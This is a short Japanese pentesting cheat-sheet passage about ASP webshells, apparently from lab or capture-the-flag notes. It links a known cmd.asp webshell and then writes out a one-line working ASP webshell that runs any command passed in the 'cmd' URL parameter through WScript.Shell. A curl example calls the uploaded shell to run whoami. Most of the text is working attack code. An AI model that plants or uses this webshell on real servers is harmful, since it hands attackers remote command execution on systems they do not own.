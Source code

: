 # webshell

[toc]

## ASP

### 画面あり

* https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.asp![image-20230501095556871](img/webshell/image-20230501095556871.png)* IISのバージョンによっては、以下のエラーになる。![image-20230501095627680](img/webshell/image-20230501095627680.png)

そしたら以下を使う

### 画面なし

```asp
# asp.simple.revs

<%response.write CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.Readall()%>
```

UIはないので直接ブラウザのURL叩くか、curlする

```
curl http://10.129.33.253/upload/cmd.asp?cmd=whoami
```

